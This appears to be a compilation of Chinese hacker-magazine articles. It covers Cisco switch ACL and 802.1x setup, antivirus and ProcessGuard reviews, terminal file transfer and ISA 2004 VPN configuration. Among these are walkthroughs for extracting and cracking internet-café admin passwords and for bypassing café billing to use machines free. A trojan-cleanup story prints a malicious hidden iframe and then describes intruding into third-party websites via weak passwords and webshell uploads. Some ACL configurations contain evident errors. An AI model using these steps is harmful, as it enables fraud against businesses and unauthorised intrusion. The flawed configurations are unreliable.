VLAN 访问控制列表（VACL）用于定义流量在穿过网络设备时的处理方式，利用地址与端口信息控制通信。VACL 是一种 ACL，可基于三层以上信息控制流量，也可在特定场景下作用于二层接口，并具备过滤子网内外 IP 流量的能力。

许多交换机支持基于端口的流量控制，可实现风暴控制、端口保护和端口安全。在拥塞时通过暂停发送避免丢包，并可对超过阈值的广播流量进行丢弃处理。

##### 访问控制技术在园区网络上的实现

下面以某单位 A 为例介绍如何利用 Cisco 交换机相关技术实现园区网络安全访问控制：通过路由器接入 Internet，核心使用基于 IOS 的多层交换机并连接服务器，二层交换机亦为可管理设备。

在园区内部使用了 VLAN 技术，整个园区网划分为 6 个 VLAN：

- VLAN1 网络设备（包括服务器）：210.28.179.32/27
- VLAN2 网络中心：210.28.179.64/27
- VLAN3 部门1：210.28.179.96/27
- VLAN4 办公室：210.28.179.128/27
- VLAN5 财务部：210.28.179.160/27
- VLAN6 部门2：210.28.179.192/27

出口路由器上 Fa0/0 接园区内部网，通过 S0/0 连接到 Internet，该网络拓扑简图如图1所示。


### 1. 安全SSH、Telnet登录配置，对网络设备安全管理

Telnet 是管理核心交换机的常用方法，但因传输明文存在安全隐患。SSH（Secure Shell）通过加密提高通信安全性。

```bash
Switch(config)# crypto key generate rsa
Enter modulus : 1024
Switch(config)# ip ssh
Switch(config)# end
```

配置 SSH 前使用 `crypto key rsa` 生成密钥，设置后通过 `ip ssh` 开启 SSH。SSH 基于 TCP 22 端口运行，可降低 Telnet 明文密码和信息被窃取风险。

### 2. 端口安全和802.1x端口身份验证，加强内网的安全

局域网采用基于 802.1x 的身份认证，用户接入信息点后需认证，通过后可从 DHCP 获取动态 IP。认证系统基于端口访问控制，区分受控端口与非受控端口；受控端口仅在认证通过后开放，用于传递网络资源与服务。

通过认证，则受控端口处于未认证状态，用户无法访问认证系统提供的服务。

同样，使用MAC地址的端口安全机制可以控制设备在给定的端口上访问网络，而如果设备被更换，那么必须重新进行配置，这样势必增加网络管理的难度。稍微引申下端口安全，就是可以根据802.1X来控制网络的访问。配置802.1X身份验证协议，首先得全局启用AAA认证，这个和在网络边界上使用AAA认证没有太多的区别，只不过认证的协议是802.1X；其次则需要在相应的接口上启用802.1X身份验证，并且使用Radius服务器来管理用户名和密码。

对于图1中的核心交换机，配置端口FastEthernet2/1只允许一个MAC地址00-0c-76-fe-fa-d5（管理员）能访问端口，否则会被关闭。配置端口FastEthernet2/2和2/3每个都允许5个地址访问端口（来自网络中心），配置端口FastEthernet3/1提供802.1X身份验证。

```bash
Switch(config)# interface fastethernet 2/1
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security mac-address 00-0c-76-fe-fa-d5
Switch(config-if)# switchport port-security violation shutdown
Switch(config-if)# int f2/2
Switch(config-if)# switchport port-security
Switch(config-if)# switchport port-security maximum 5
Switch(config-if)# int f2/3
Switch(config-if)# switchport port-security maximum 5
Switch(config)# interface fastethernet 2/3
Switch(config)# aaa new-model
Switch(config)# aaa authentication dot1x default local
Switch(config)# int range f0/1-24
Switch(config-if)# dot1x port-control auto
Switch(config-if)# end
```

这样我们就可以对一些重要的交换机和相应的端口进行很好的控制，防止非法用户在内网的其他地方以合法的身份访问。

## 3. 利用VLAN访问控制列表加强服务器和网络安全

现在单位A的服务器承担了对内和对外的信息服务，安全性要求较高。服务器210.28.179.32/27允许来自任何主机的所有TCP数据流到达子网，允许应用类型是SMTP（邮件）和域名服务（DNS）的UDP数据包，允许ICMP命令和命令应答（Ping），拒绝所有其他数据流。

利用ACL技术可以在核心交换机上的配置如下：

```bash
access-list 103 permit tcp any 210.28.179.32/27
access-list 103 permit tcp any host 210.28.179.32/27 eq smtp
access-list 103 permit udp eq domain any
access-list 103 permit icmp any any echo
access-list 103 permit icmp any any echo-reply
```

单位A的网络中心，也可作为学校的领导层网络，肯定不希望单位内的其他任何用户访问到它，但是它又需要对单位内其它用户的各种管理、财务等信息进行有效的监控和管理，也就是我们要对该管理网实现一个单向的访问，也就是财务部网络拒绝其它的部门网络访问。

利用ACL技术可以在核心交换机上实现网络单向访问的具体配置如下：

```bash
access-list 101 deny 210.28.179.64 0.0.0.224 any
access-list 101 deny 210.28.179.160 0.0.0.224 any
access-list 101 deny 210.28.179.96 0.0.0.224 any
access-list 101 deny 210.28.179.192 0.0.0.224 any
interface vlan 5
ip access-group 101 in
```

##### 小结

本文主要讨论了基于Cisco系列交换机的访问控制的研究与实现，在简单地介绍了访问控制的相关概念和技术上，讨论了基于Cisco系列交换机的访问控制的三种实现方法：端口安全、802.1X身份验证和VLAN访问控制列表及其简单实现。但在严格的网络安全中，这些还是远远不够的，还应结合路由器、防火墙和加密、身份认证等措施共同提供访问控制的安全保障。

- 适合读者：网络爱好者，免费爱好者
- 前置知识：无

## VIP会员学习成果展：一分钟破解万象

文/图 [黑防VIP]flyforever

最近几天闲得无聊便去泡网，不经意地发现此网吧采用的是《万象网吧管理专家》和《易佰网管软件》，所以也就有了下文。

为了“免费上网”，我准备打万象的主意（本文用于研究目的，读者切勿以身试法）。开始我就抱着试试看的想法先从注册表入手（毕竟注册表是各个程序的归宿），打开“开始”菜单却发现没有“运行”一项，如图1所示。


这点倒难不倒我，毕竟我也略懂点电脑知识。先看看有什么别的入口没有，仔细查看了一下，发现“程序”菜单里面有“附件”，如图2所示。


图1

一般来说，附件中应该有命令提示符。果不其然让我找到了CMD，直接键入Regedit，就这样，注册表跳了出来。我找找看有没有关于万象的信息。经过一番摸索，我终于在“HKEY_CURRENT_USER\Software\Sicent\专家系列网管软件”键值下，发现了万象的各种密码信息，如图3所示。


图2


图3


图4


图5

剩下的事情就是破解各种密码了，省事的做法是直接把密码值删除。但这样很容易被老板发现，所以还是记住原密码比较好。仔细一看密码好像是用MD5加密的。随便找个在线破解站点去搜索密码，结果很轻松地就找到了密码。看来今天运气不错。接下来当然是进入客户端设置了，得意忘形中才醒悟到自己还不知道客户端设置程序的物理存放位置……继续在注册表中摸索，终于让我找到了，如图4所示。

键值是“HKEY_LOCAL_MACHINE\SOFTWARE\Sicent\专家系列网管软件”。打开我的电脑进入C盘，结果发现C盘都是一些镜像文件，根本没有Octopus目录。看来是网管把它隐藏了，这也难不倒我，打开IE在地址栏直接输入“C:\Octopus”，直接跳转到Octopus目录，如图5所示。

最后打开ClientSetup，根据刚才我们找出来的密码直接进入设置就可以了，如图6所示。


图6

破解完万象，想再乘胜追击一鼓作气破解易佰。但从注册表中查不到易佰的任何有用信息。看来易佰要比万象安全得多。当然这应该是本人技术太菜没发现易佰的漏洞而已。当我对易佰无奈的时候，就拿万象的密码试了试，没想到还真进去了。看来管理员还真懒。

**刘流：**时下各种病毒、木马、黑客程序、蠕虫等恶意程序呈现泛滥趋势，严重威胁着Windows系统的安全。恶意程序侵入系统的花样不断翻新，为了有效地保卫系统安全，必须及时发现并阻止恶意程序的运行。各种恶意程序往往将自身伪装成合法的进程，或者通过注入、感染系统合法进程的方法，来达到隐藏运行的目的。因此，保卫Windows的进程安全就显得特别重要。

- 适合读者：网络爱好者
- 前置知识：无

#### 斩断非法进程的“黑手”

文/图 郭建伟

ProcessGuard通过对各种进程的全面监控，来防止和预警恶意程序的运行和破坏。有了ProcessGuard这道进程防火墙，我们就能及时斩断非法进程伸向系统的“黑手”，最大限度地保障系统安全。

这里以国外的Xploit木马为例进行说明，当Xploit木马的服务器端程序试图启动时，马上被ProcessGuard探测到，并弹出询问窗口，如图2所示。

##### 激活保护功能

ProcessGuard安装成功后，必须重新启动电脑方能使其配置生效。它将自身注册成名为“DiamondCS Process Guard Service”的系统服务，同时将主程序添加到注册表的启动项目。ProcessGuard采用特殊的运行机制，安全性极高。在Windows的服务管理器无法直接关闭ProcessGuard对应的服务，在Windows进程管理器中也无法中止ProcessGuard主进程的运行，可以有效抗击恶意程序对其的非法关闭。只要一开机，系统就处于ProcessGuard的保护之下。在ProcessGuard主界面中打开“Main”面板，如图1所示。


图1


图2

这里显示Xploit木马服务器端程序Server.exe的详细信息，包括程序的名称、路径信息等。点击“Hide Extra Information”标签，则打开扩展信息面板，在其中显示该程序的执行者、程序的命令行信息、开发者名称、文件的大小等内容。如果是正常的程序，点击“Permit”按钮允许其运行；对于Server.exe这样的可疑程序，我们点击“Deny”按钮禁止其运行。如果勾选“Always Perform this action”项，表示当该程序以后运行时，按照预定的规则处理。对于有经验的用户来说，可以进一步观察该木马的入侵方式。假设在询问窗口中点击了“Permit”按钮，紧接着ProcessGuard弹出的询问窗口，如图3所示。

在“Protection Settings”栏中勾选“Protection Enabled”项，表示激活ProcessGuard的进程监控功能；同时在“System-Status”栏中显示“SECURE Protected by ProcessGuard”，表明系统进程已经处于ProcessGuard的保护之下；在“ProcessGuard”栏中显示“Running”，说明ProcessGuard处于运行状态。

在默认情况下，ProcessGuard对所有的系统进程进行保护。勾选“Execution Protection”项，当启动任何应用程序时，ProcessGuard都会弹出规则设置窗口。这时我们可以清晰地看到Xploit木马试图对系统核心进程iexplore.exe进行修改，因为Xploit木马采用了进程注入技术，可以将自身的关键代码插入到合法进程中，试图蒙混过关，逃避用户对其的清除。为了不让Xploit木马程序潜入系统，在该询问窗体中必须点击“Deny”按钮阻止其入侵动作。利用ProcessGuard不仅可以有效地阻止可疑程序的侵入、保护合法进程，而且还能清楚地看到可疑程序的“行踪”，能让我们明了恶意程序的常用伎俩，从根本上保卫系统安全。


图3

在“Protection Settings”面板中如果同时勾选“Block new and changed applications”项，那么除了系统的核心进程，以及事先允许运行的程序可以正常运行外，任何其它的程序都无法启动。当其它程序试图启动时，ProcessGuard将弹出警告对话框，如图4所示。


图4

此处提示程序的句柄无效，从而禁止其运行。利用这一功能，如同为Windows套上了“金钟罩”，任何可疑程序都奈何系统不得了。此外，在“Global Protection Options”面板中，ProcessGuard还提供针对Windows的全局保护功能。勾选其中的“Protect Physical Memory”项，表示ProcessGuard将对系统的物理内存进行保护。在Windows系统中，程序实际运行在系统分配的虚拟内存中，如果允许程序任意更改物理内存中的数据，将带来极大的不安全性。该项功能不允许任何程序修改物理内存数据，可以有效保护系统免受恶意攻击。勾选“Block Global Hooks”项，可以阻止可疑程序非法设置系统钩子，从而让那些记录键盘和鼠标动作的间谍程序失效。勾选“Block Rootkit/Driver/Service Installation?”项，可以禁止Rootkit类程序运行，阻止可疑程序非法安装驱动程序和系统服务项。现在的恶意程序越来越狡猾，往往伪装成系统的合法驱动程序或者服务项，从而加强自身的隐秘性，逃避安全软件的查杀。针对越来越多的黑客程序使用Rootkit技术，实现自身的深度隐藏，用普通的方法根本无法发现其存在，使其更具危险性。不过这些伎俩很容易被ProcessGuard识破，勾选“Block Registry, DLL Injection”项，就能够抗击可疑程序对合法进程的注入操作了。在窗口底部的“Protection Statistics”栏中显示ProcessGuard拦截的非法进程对系统的攻击次数。为了防止别人随意更改ProcessGuard的配置信息，我们点击“Lock”按钮，输入管理员密码，如图5所示。


图5

这样ProcessGuard就处于锁定状态，关键的配置面板都隐藏起来了，如图6所示。


图6

点击“Unlock”按钮即可解锁。

##### 查看日志

在ProcessGuard主界面中打开“Alert”面板，如图7所示。


图7

在其中显示ProcessGuard的详细日志信息，记录了各种进程的启动情况，以及ProcessGuard对其行为的阻止或允许的动作。选中任意一行日志信息，在面板底部的“Application”栏中显示了程序的路径、进程ID，以及其

## 设置ProcessGuard保护对象

ProcessGuard对进程的保护分为两个方面：一种是彻底的保护，主要针对系统核心进程，以及用户特别信任的进程，不允许恶意程序对这些进程进行任何破坏；另外一种是对于一般的程序，只是允许其在ProcessGuard设定的安全范围内运行。在ProcessGuard主界面中打开“Protection”面板，如图8所示。


在其中显示被彻底保护的进程，ProcessGuard采用双重保护机制来保卫合法的进程。选中某一进程，在“Protect this application from”面板中设置保护进程的方式，包括Termination（禁止非法关闭进程）、Modification（禁止修改进程内容）、Reading（禁止读取该进程的数据）等。同时在“Authorize this application to”面板中可以批准进程按照设置运行。

例如，为了防止恶意程序非法关闭瑞星防火墙，可以在进程列表中选中进程“Rfwsrv.exe”，在上述两个面板中同时勾选“Termination”和“Terminate protected applications”项，就能有效抗击恶意程序对瑞星防火墙的非正常关闭操作。在“Other options for this application”栏中可以设置是否允许选中的进程设置系统钩子、存取物理内存、安装驱动程序或者系统服务项、设置退出时弹出提示窗体等项目，从而提高了保护的灵活性。

同时点击“Add Application”按钮，允许用户将特别信任的程序直接添加到保护列表中，让其“享受”和系统核心进程同样的保护级别。在ProcessGuard主界面中打开“Security”面板，在其中显示在ProcessGuard设定的安全范围内允许运行的进程。选中一个进程，利用右键菜单，可以实现查看属性、添加到保护列表中、改变保护响应动作、从安全列表中删除等功能。总体而言，ProcessGuard是一款不可多得的系统保护程序，操作简单，并且对木马的监视效果非常好。

刘流：Windows XP中提供的远程桌面，以及Windows 2000/2003中提供的终端服务，可以实现远程控制计算机，具有反应速度快、操作简单的特点。不过远程桌面/终端服务的缺点是不具备文件传输的能力。如果利用Radmin Administrator、PcAnywhere等专业的远程控制软件来传输文件的话，还得在服务器上打开新的控制端口，既增加服务器的负担，又带来新的安全隐患。本文就为大家介绍了如何在终端下进行安全的文件传输。

- 适合读者：网络爱好者
- 前置知识：无

#### 终端下的文件传输之道


最近朋友忙着折腾服务器，不过他对在终端下进行文件传输不太了解，所以拜托我找一个好的解决方案。为此，我写下了本文。

## 使用WtsFtp传输文件

IBEX推出的WtsFtp弥补了远程桌面/终端服务在文件传输上的不足。安装文件包含客户端和服务器两个组件，在安装时分别选择各自组件即可。在客户端运行WtsFtp程序中的“Register New Client”项，将为当前用户注册安装WtsFtp Client DLL文件。在服务器端启动WtsFtp程序组件中的WtsFtp主文件，在客户端运行终端服务客户端连上远程服务器。WtsFtp确认连接建立后，在其主窗口的左侧文件列表框中会显示服务器的名称和磁盘文件列表，在右侧的文件列表框中会显示客户端的文件。

##### 黑网管之路

名称和磁盘文件列表，如图1所示。


> 如果客户端信息不能正常显示的话，WtsFtp会给出错误提示，原因可能是客户端没有安装对应的WtsFtp软件，或者客户端的WtsFtp版本和服务器端版本不符等。

正常情况下，利用WtsFtp工具条上的“上传”“下载”按钮就可以在服务器和客户端之间传送文件，也可以直接在文件列表之间拖拽文件。在WtsFtp的“Upload Speed”“Download Speed”下拉框中可以设定上传和下载速度，可以从1KB到500KB之间自由选择。

在WtsFtp中，我们可以限制哪些登录用户可以进行文件传输。点击“Options | User Settings”菜单，打开“User Settings”对话框，点击“Add...”按钮，在“Choose”窗口中选择用户账号即可。还可以对选择的用户设定上传下载的最大速度和默认速度。

对于可以使用WtsFtp传输文件的用户，WtsFtp还可以进一步限制哪些资源（例如磁盘、我的文档等）可以使用。点击菜单“Options | User | Group Permissions”项，在权限设置窗口中可通过“Add...”增加用户或用户组，在“User drives and directories permissions list”中选择磁盘等资源；勾选“Hide selected drives and directories”可隐藏资源，勾选“Show selected drives and directories”可使资源可见；“Inherit permissions from group”可继承用户组权限。

##### 利用远程桌面连接工具传输文件

使用WtsFtp虽然能在远程桌面/终端服务环境下传输文件，但在服务器端必须关闭防火墙软件，否则WtsFtp无法和客户端取得联系。利用Windows XP自带的远程桌面连接工具也能实现文件传输。在开始运行中输入“Mstsc.exe”并打开远程桌面连接，点击“选项>>”，在本地资源面板“本地设备”中勾选“磁盘驱动器”，如图2所示。

然后在常规面板中依次输入服务器IP、用户名和密码、域等连接参数。设置完成后点击“连接”按钮，系统会弹出远程桌面连接安全警告对话框，提示远程计算机将使用本地设备；确认后开始连接。假设本机名为CLIENTPC，连接成功后，在服务器端打开资源管理器，可以看到本机所有磁盘全部显示在服务器端“我的电脑”中，如图3所示。


这样我们在远程控制中，就可以方便地使用复制粘贴命令，或者直接拖拽文件，在客户端和服务器端进行上传/下载操作，就像在同一台电脑上操作一样简单。如果将Windows XP的Mstsc.exe文件复制到Windows 2003中，也可用上述方法连接Windows XP/2003服务器。

## 使用RDP技术传输文件

使用微软的RdpClip技术可以直接在远程桌面/终端服务环境下传输文件。将RDP工具包解压后找到Rdpclip.exe、Fxfr.dll、Rdpdr.dll三个文件。在终端服务器端的`X:\Winnt\System32`下建立Rdpclip目录并放入Rdpclip.exe；修改注册表`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd`的`StartupPrograms`值为`Rdpclip\rdpclip.exe`，并将Fxfr.dll复制到`X:\Winnt\System32`。重启后生效。客户端侧将Rdpdr.dll和Fxfr.dll复制到终端服务客户端安装目录（一般为`X:\Program Files\Terminal Services Client`）覆盖原文件。设置完成后连接服务器，即可像本地一样方便地复制粘贴文件。

适合读者：网吧爱好者、免费爱好者

前置知识：无

#### 网吧免费新思路

## Windows防锁专家

文／黄泉碧落


最近家里断网，一直没有人去交费，结果“蒸汽时代”也没办法玩了，把我都闷得要死。不过答应朋友的事情总要做到，所以每天晚上我就开始泡网吧陪他打游戏。不过网吧的消费毕竟还是太高，就这样玩了一周我的口袋就紧巴巴了。好在找到了一款破解网吧收费系统的好软件，一切都不用愁了。

这款软件的名字叫做“Windows防锁专家”，其主界面如图1所示。


运行此程序，它不在任务栏有任何显示，我们可以用Alt+F1随时显示或隐藏它。有些网吧不让我们运行注册表或其他软件，我们可以通过主界面的“新建任务”来运行所需要的程序。

其实Windows防锁专家的亮点就在“特殊功能”下，如图2所示。


其中窗口扫描功能可以让我们知道当前窗体的窗口类名和句柄，对于编程非常有用，也适合我们通过所得的句柄来定位窗体。激活灰色按钮功能也比较有用，比如网吧禁止下载，不让我们点击“确定”，当我们激活灰色按钮后，一切障碍就都解除了。

选上“阻止所有现有程序的关机动作”，这样当我们的卡上没钱后机器依然不关机，我们依然可以免费玩；不过此功能只针对万象、美萍、PubWin这种收费系统有用，对于金钥匙这种硬件级收费系统还是无效，感觉有点可惜。

而实现免费上机的玄机则在这里，下面大家一起跟我操作：

- 1. 先正常上机，然后运行Windows防锁专家。
- 2. 点选“特殊功能”选项卡，设置10秒后隐藏全部窗口，并把阻止关机动作选上。
- 3. 在收费软件中选择下机，10秒后等锁定窗口被防锁专家隐藏后就可继续上机了。

怎么样？很简单吧，轻松的三步就搞定网吧免费上网。除了免费上机，此程序还提供了命令提示符功能，如图3所示。


从图3我们可以看到，命令提示符不光可以让我们执行CMD下的所有命令，而且还附带一套完整的PCS入侵方案，所有的命令已经被集成到常用命令里了，非常好用。

其实我们不光可以用它网吧免费上网，还可以用它分析系统的进程是否正常；只要点选“进程管理”选项卡即可，里面的信息比Windows自带的任务管理器详细很多，如图4所示。


适合读者：网管员、病毒爱好者

前置知识：无

## 来啊！

### ——微点主动防御

文／图 黄泉碧落


现在市面上的杀毒软件和防火墙软件越来越多，不过它们大都是基于特征码查询的软件。此类软件有一个很大的缺陷，就是查杀病毒完全依靠病毒库的数据量。对于新出的病毒，这类软件往往是心有余而力不足。

所以，根据程序行为智能诊断可疑程序的微点主动防御，在预防新病毒上就已经是棋高一着了。它能够自动识别新病毒，实现对病毒、蠕虫、木马、后门、间谍等有害程序的主动防御。并且在发现新病毒后，它能够自动提取病毒特征，自主完成本地特征库的升级。

说了它这么多好处，大家还是跟着我一起来体验一下吧。

安装程序很简单，一路Next即可。需要注意的是，此软件必须在线注册之后方可使用。注册成功后系统会自动更新，并且在更新完成后要求你重新启动计算机。微点的功能大致分为4个大的模块，其中包括“安全防护与策略”“系统分析”“网络分析”“日志”。

“安全防护与策略”中，我们可以通过“漏洞扫描”来为系统打补丁，这里的漏洞补丁列表与Windows Update中的信息是同步的，但是它并不需要你与服务器进行身份验证，只要点击即可下载，如图1所示。


图1

程序访问网络策略类似于大家使用过的各种类似的网络防火墙，我们只需要简单地对程序设置是否允许访问网络即可，如图2所示。


图2

微点作为一款主动防御的杀毒软件，它的杀毒过程对我们来说是透明的。虽然我们无法调整它的杀毒规则，但是这里还是有必要了解一下它的工作原理。

- 1. **已知特征判断**：首先使用已知病毒库（特征码）来查询，如果有相同的特征码，则直接将之处理，并将该处理结果写入日志。
- 2. **未知特征库判断**：使用已知病毒库扫描后，继续使用未知特征库扫描。
- 3. **程序行为特征判断**：在使用已知和未知病毒库扫描后，微点根据木马或者病毒的行为动作来确定它是否是有危害的软件，并且及时处理并拦截新的有害程序。
- 4. **自动提取特征码**：确定某进程为未知有害程序后，开始自动提取该有害程序的特征码。
- 5. **自动更新本地特征库**：提取特征码后，自动更新本地未知特征库，当该有害程序再次攻击或感染时有利于快速检测。

接下来我们进行传统防火墙的设置。“传统防火墙设置”中已经附带了5条规则，分别是“开放网络，不对进出数据包做任何限制”“禁止网络，禁止任何数据包进出”“开放本机连接共享，适用于局域网内部用户”“禁止本机连接共享，适用于局域网内部用户”“推荐设置，适用于使用互联网的用户”。这5条规则设置起来非常简单，可以满足大家的常用需求，如图3所示。

“远端地址”的字样，只要点击任何一个IP地址，就会自动转到“进程网络分析”的相关进程下。在此我们可以详细地得知该进程的运行状况以及各种详细信息，如图6所示。


图3


图6

在系统分析的进程综合信息下，我们可以看到进程名、运行时间、路径名、远程IP和端口，以及程序所使用的流量。如果进程名前的括号中有数字，就表示它有多少个进程在访问网络。单击打开后，可以看到详细的网络连接信息，如图4所示。


图4

> 经过多次测试，系统自启动信息一点击程序就进入假死状态，估计这是程序的一个小Bug，请大家使用的时候注意这个问题。

注册表修复和注册表保护也是比较常用的功能。一些流氓软件劫持浏览器之后，我们的IE会被修改得面目全非，这个时候就可以用注册表修复功能来恢复一下了，如图5所示。


图5

在程序的主界面上，我们可以看到顶部写着“远端地址”中所出现的IP，都会在IP流量图中出现。我们可以按照自己的需要，随时分析数据流量，查看网络是否存在异常情况。端口/进程流量图的作用与此相似，如图7所示。


图7

微点的日志功能做得不错，因为它是按照行为来确定程序是木马还是病毒的，所以它的日志也分为了：病毒、木马、溢出、蠕虫、网络入侵、异常访问、可疑程序等多个类别。通过日志我们可以更快速地找到系统出问题的地方，并根据这些信息来及时修补自己的系统。

微点主动防御现在还是测试版，所以难免有一些问题，比如某些模块的功能打不开，某些模块在使用时容易崩溃。当然瑕不掩瑜，微点在运行时CPU利用率非常低，大约只占1%～2%。根据行为来查杀木马，效果也非常好，很少有漏网之鱼。对于非注册用户，该软件也提供了90天的免费试用。相信无论是对于病毒爱好者还是网管来说，它都是一款不可多得的木马查杀工具。

适合读者：网络爱好者、网管员  
前置知识：无

#### 牧马者，你的马还能跑吗？

文／如Lies[PHI]工作室


都闪，相当都闪！师兄的网站被人挂了马，做师弟的却帮不上忙，实在是枉对师兄对我当年的栽培，所以决定帮他把牧马者揪出来。

##### 寻马篇

首先看看被挂马的主页代码，如图1所示。

```html
</body>
</html>
<iframe src="http://mm.47555.com/ad.htm" width=1 height=1 frameborder=0></iframe>
```


因为我把系统补丁都打全了，所以没中木马。我先用FlashGet将ad.htm网页下载下来，然后查看源代码，不出所料，果然是加了密，如图2所示。

```html
<script>
<DIV STYLE="display:none"> ... 加密字符串 ...
http://mm47555.com/count.html ...
</script>
```


其实也算不上加密，我们只要稍加认真就能找出网页木马的路径。图2中的`http://mm.47555.com/xxxx.exe`被“加密”后仍可还原。将xxxx.exe下载后，杀毒软件提示为Trojan.DL.Agent.alw，应该是木马或下载者一类。继续分析`http://mm.47555.com/count.html`，是另一种不熟悉的加密手法。

在运行之前，先打开任务管理器，然后将`C:\Documents and Settings\用户\Local Settings\Temp`和`C:\Documents and Settings\用户\Local Settings\Temporary Internet Files`下文件清空，便于观察新增木马文件。运行xxxx.exe后发现多了一个zz.exe进程，如图3所示。


接着去`Temp`和`Temporary Internet Files`目录查看：在Temp下发现3个exe文件，在Temporary Internet Files下发现5个exe文件和一个网页文件，如图4和图5所示。


先将这些exe程序和网页文件从Temporary Internet Files中拷贝出来，再用瑞星和卡巴分别查杀。瑞星查出3个，卡巴查出2个，并发现其中包含盗号程序。剩余`mhxy.exe`和`day.htm`文件继续手工分析，发现其中记录了盗号程序的网址路径。

##### 杀马篇

既然有杀毒软件，那我就偷一次懒，先将G盘进行全面查杀，因为还有个免杀的mhxy.exe没被查出来。20分钟后结果出来了，如图7所示。


那么多木马，还挺强的嘛！算了，先重启机器，但是意外的事情发生了，瑞星防火墙报警说发现Trojan.PSW.QQGame.v，如图8所示。再次重新启动后，用瑞星和卡巴对系统盘进行全面扫描，结果是没有找到病毒，这就奇怪了。首先services.exe对应的服务是PlugPlay和EventLog服务，如果services.exe被替换了的话，这两个服务应该要报错的，打开查看系统日志均没发现有问题，最后只能试试IceSword，进程和模块之间也都没出问题。郁闷！正无奈之下突然想起了黑客编程中木马启动的方法除了服务启动外，还包含修改注册表达到启动的目的。于是我试着搜索所有Run键值，果然皇天不负有心人，终于在`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run`找到了陌生的程序，如图9所示。先把它从注册表中删除，然后重新启动机器，完毕后再用杀毒软件查杀，这下世界清静了。在`C:\WINDOWS\SYSTEM32`下找到了mswdm.exe程序，居然还是免杀，把它提交给了瑞星公司，估计很快它就会被“通缉”了。毒杀完了，该是去找“杀手”的时候了。


##### 除马篇

本机病毒已经解决了，但是治标不治本。为了广大网友的根本利益，我决定让牧马者的马儿彻底离开，开始入侵了！先看看图6中的几个地址，就按顺序来。打开`http://210.51.187.193/`，是个网上购物城，而BBS是动网的Access 7.1.0版本，存在弱口令，然后在版面管理的高级设置中添加上传类型`|mdb`，然后到相应的版面中上传加有冰狐一句话木马的mdb数据库，最后通过备份得到webshell，就这么简单。如果你不懂，那就翻阅《黑客防线》的相关文章，上面有详细全面的介绍，一定能成功。这是我得到的后门，如图10所示，找到他的程序，然后删除，搞定一个。`http://www.jinsikeji.com/`这个网站漏洞和`http://210.51.187.193/`一样，只是弱密码稍微强点，稍微花了点时间，这是我得到的后门，如图11所示。剩下的两个网站也很简单，一个存在注入，一个存在跨站。这里就不多说了，因为那些方法都是《黑客防线》讲过的。如果你真的想学技术，这本杂志我个人认为一本都不能少哦。不是做广告啦，无论你相不相信，反正我从2005年开始，黑防我一本都没漏买。说说总结吧，杀毒不能一味地使用杀毒软件，毕竟那是软件，只会按程序办事，永远没有人的头脑好用。大家平日多注意最新公布的漏洞，及时更新系统补丁，安装防火墙，然后多了解一些木马启动原理，这样以后在遇到杀毒软件不能解决的情况下还能用手动解决。


适合读者：网络管理员、企业架构人员

前置知识：网络基础知识，VPN原理，ISA 2004 应用

## ISA2004的企业VPN配置

文／图【微软 TechNet 观察员】刘晋


大家好，我们又见面了，想必大家都看过以前我写的几篇关于 ISA 2004 企业简单应用的文章吧？这次我还将继续围绕 ISA 2004 做一个讲解，主要介绍它的 VPN 服务器的发布，以及企业 VPN 应用。其实 ISA 2004 并不集成有 VPN 服务器，当然 ISA 2006 也没有，它只是利用了 Windows 2003 系统自带的路由和远程访问服务而已。下面我就来给大家讲讲 ISA 2004 部署企业网络与 VPN 的架构。

具体的实验环境我就不再详细讲述了，前两篇文章已经把实验环境的搭建讲得很详细了，这里将假设大家已经对 ISA 2004 有一定认识并已经搭建好实验环境。

## 配置VPN访问

首先我们打开 ISA 2004 的管理器，在管理器中选择“配置 VPN 访问”，如图1所示。这里看到的 ISA 2004 的界面可能和以前讲解的不太一样，其实这个不要紧，以前我用的是标准版的，这次用的是企业版的，操作方法都一样，只是企业版的支持 NLB 和更多的 CPU，标准版中没有防火墙阵列功能，做 VPN 实验不受任何影响。

进入 VPN 配置页面后，在右边的任务栏中单击“定义地址分配”。我们需要在这里配置 VPN 客户端接入后分配 IP 地址的情况，如果不先分配好地址，而直接去启动 VPN 服务的话，很有可能 ISA 2004 会提示错误，如图2所示。

在这里可以使用静态地址分配，也可以通过内网的 DHCP 分配。这里有一点需要注意的，就是 VPN 客户端分配的 IP 地址不能是 ISA 2004 所使用的 IP 地址段，也就是说 VPN 客户端分配的地址不能设置为 ISA 2004 外网卡、内网卡、DMZ 区网卡上的网段地址。


VPN 服务器的客户端地址池使用分析》这篇文章看看！接下来单击“验证启用了 VPN 客户端”并应用该规则，如图3所示。

很简单吧？只需要打一个勾就可以了。也许有人会问了，打个勾就可以了吗？不相信的朋友可以到系统管理工具中打开“路由和远程访问”看看就知道了，如图4所示。可能在应用规则后，打开该界面不一定看到这个服务是启动的，你可以多次刷新，就可以看见“路由和远程访问”被启动了。


到这里，我们的 VPN 服务器就设置好了，接下来就可以用虚拟机进行 VPN 拨号。我们先要建立一个 VPN 拨号，大家都建立过 ADSL 拨号吧？两者差不多，就不详细说明了，如图5、图6和图7所示。

注意这里，你一定要输入 VPN 服务器的外部 IP 地址，也就是 ISA 2004 的外网卡地址，然后单击“下一步”直到完成。现在我们可以拨号了，该用哪个用户进行拨号呢？当然是用 VPN 服务器上的用户名进行拨号，可以是新建的用户，也可以用 Administrator 拨号，但是我们发现当进行拨号的时候提示没有权限，为什么会提示没有权限呢？如图8所示。这是因为在 Windows 2003 系统中，默认情况下，系统的任何用户都没有拨入权限，如图9所示。它默认是“通过远程访问策略控制访问”的，并没有拒绝访问，为什么还不能访问呢？因为默认情况的远程访问策略也是不允许拨入的，所以我们必须给该用户允许访问的权限。下面我们再来试试，没有问题了，马上就可以拨通了，如图10所示。


图5


图6


图7


图8

